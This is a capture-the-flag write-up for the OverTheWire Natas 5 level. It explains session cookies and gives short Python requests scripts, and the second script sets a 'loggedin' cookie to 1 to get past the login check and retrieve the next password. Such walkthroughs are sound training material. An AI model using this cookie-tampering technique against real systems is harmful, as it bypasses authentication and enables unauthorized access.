




# Writeup for [Natas 5 - Natas 6](http://natas5.natas.labs.overthewire.org) from [OverTheWire](https://overthewire.org)

We are prompted to a page that says that we aren't logged in.




To solve this problem, we're going to need to know how logins work. 

When a user is logged in, it creates a session with the server to denote that the user is logged in and so that the server knows which request is coming from which user. It can also be used to customize user sessions. 

All request origins to a server are exactly the same and a server cannot determine if a request came from a client that had already made a request before, or it’s a new one. This cookie can be used to identify what privileges the user has, including login sessions.


On the previous level, we used a tool called Burp Suite. But now we're going to do it with `Python` with the `requests` module.
So let's create the base script for this exploit that'll just do a simple `GET` request to the server.

```python
#!/usr/bin/env python3

import requests

url = 'http://natas5.natas.labs.overthewire.org/'

username = 'natas5'
password = '' # Password

r = requests.get( url, auth=(username, password) )

print(r.text)
```
And we see the exact same thing as the web page says, but in `HTML` form.



Now let's try viewing the cookie by adding `print(r.cookies)` to the end of the script.

Now we can see all of the `cookies` being used on this page.



It appears that there is a cookie called `loggedin` and it is set to 0, which is used by programmers to set something to `false`.

What we could do is try to set this cookie to `true` by setting it to 1. Our script should look like this.

```python
#!/usr/bin/env python3

import requests

url = 'http://natas5.natas.labs.overthewire.org/'

username = 'natas5'
password = '' # Password

cookies = {
	"loggedin" : "1"
}

r = requests.get( url, auth=(username,password),cookies=cookies )

print(r.text)
print(r.cookies)
```

Running this script, we can see that we successfully changed the `loggedin` cookie to be set to 1 and we got the password for the next level.


